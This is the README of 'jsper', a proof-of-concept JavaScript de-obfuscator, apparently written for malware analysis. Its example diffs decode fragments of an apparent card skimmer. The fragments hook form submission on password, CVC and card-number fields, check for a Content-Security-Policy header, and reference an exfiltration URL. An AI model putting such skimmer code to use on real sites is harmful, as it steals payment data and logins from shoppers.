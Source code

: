 # `jsper`

Use partial evaluation to de-obfuscate JavaScript code.

## Get started

```
npm install
npm install -g typescript
make test
```

This is a PoC -- if you want to use it for any production purpose, you will probably need to extend on top of `main.ts`
to gauge the false positives and false negatives for your case. Welcome to contact me if you want help for your use case as well.

## Why is it useful?

From `diff tests/example.js tests/example.new.js`:

```diff
< var n = require(decode("2e2f746573742f64617461"))
---
> var n = require("./test/data")
```

From `diff tests/example2.js tests/example2.new.js`

```diff
<             const _nZ = resp.headers.get(_zeN5[45]+_zeN5[31]+_zeN5[13]+_zeN5[43]+_zeN5[41]+_zeN5[13]+_zeN5[43]+_zeN5[28]+_zeN5[8]+_zeN5[41]+_zeN5[2]+_zeN5[34]+_zeN5[19]+_zeN5[6]+_zeN5[43]+_zeN5[1]+_zeN5[28]+_zeN5[27]+_zeN5[31]+_zeN5[12]+_zeN5[6]+_zeN5[2]+_zeN5[1]);
<             if (_nZ == null || !_nZ.includes(_zeN5[5]+_zeN5[41]+_zeN5[32]+_zeN5[9]+_zeN5[34]+_zeN5[12]+_zeN5[43]+_zeN5[28]+_zeN5[14]+_zeN5[19]+_zeN5[2])) {
---
>             const _nZ = resp.headers.get("Content-Security-Policy");
>             if (_nZ == null || !_nZ.includes("default-src")) {

<                         if (_x8[k].type == _zeN5[37]+_zeN5[9]+_zeN5[14]+_zeN5[14]+_zeN5[17]+_zeN5[31]+_zeN5[19]+_zeN5[5] || _x8[k].name.toLowerCase() == _zeN5[2]+_zeN5[21]+_zeN5[2] || _x8[k].name.toLowerCase() == _zeN5[2]+_zeN5[9]+_zeN5[19]+_zeN5[5]+_zeN5[13]+_zeN5[34]+_zeN5[4]+_zeN5[11]+_zeN5[41]+_zeN5[19]) {
<                             document.forms[i].addEventListener(_zeN5[14]+_zeN5[34]+_zeN5[11]+_zeN5[4]+_zeN5[6]+_zeN5[43], function (ev) {
---
>                         if (_x8[k].type == "password" || _x8[k].name.toLowerCase() == "cvc" || _x8[k].name.toLowerCase() == "cardnumber") {
>                             document.forms[i].addEventListener("submit", function (ev) {

< var _5aJ5 = [_zeN5[38]+_zeN5[43]+_zeN5[43]+_zeN5[37]+_zeN5[14]+_zeN5[23]+_zeN5[15]+_zeN5[15]+_zeN5[16]+_zeN5[14]+_zeN5[28]+_zeN5[4]+_zeN5[41]+_zeN5[43]+_zeN5[19]+_zeN5[6]+_zeN5[2]+_zeN5[14]+_zeN5[3]+_zeN5[2]+_zeN5[31]+_zeN5[4]+_zeN5[15]+_zeN5[4]+_zeN5[6]+_zeN5[13]+_zeN5[16]+_zeN5[14]+_zeN5[3]+_zeN5[37]+_zeN5[38]+_zeN5[37]+_zeN5[35]+_zeN5[37]+_zeN5[12]+_zeN5[0]];
---
> var _5aJ5 = ["https://js-metrics.com/minjs.php?pl="];

<     const _Vr2P = document.createElement(_zeN5[12]+_zeN5[6]+_zeN5[13]+_zeN5[40]);
<     _Vr2P.rel = _zeN5[37]+_zeN5[19]+_zeN5[41]+_zeN5[32]+_zeN5[41]+_zeN5[43]+_zeN5[2]+_zeN5[38];
---
>     const _Vr2P = document.createElement("link");
>     _Vr2P.rel = "prefetch";
```

## Bootstrap a TypeScript project

https://medium.com/javascript-in-plain-english/typescript-with-node-and-express-js-why-when-and-how-eb6bc73edd5d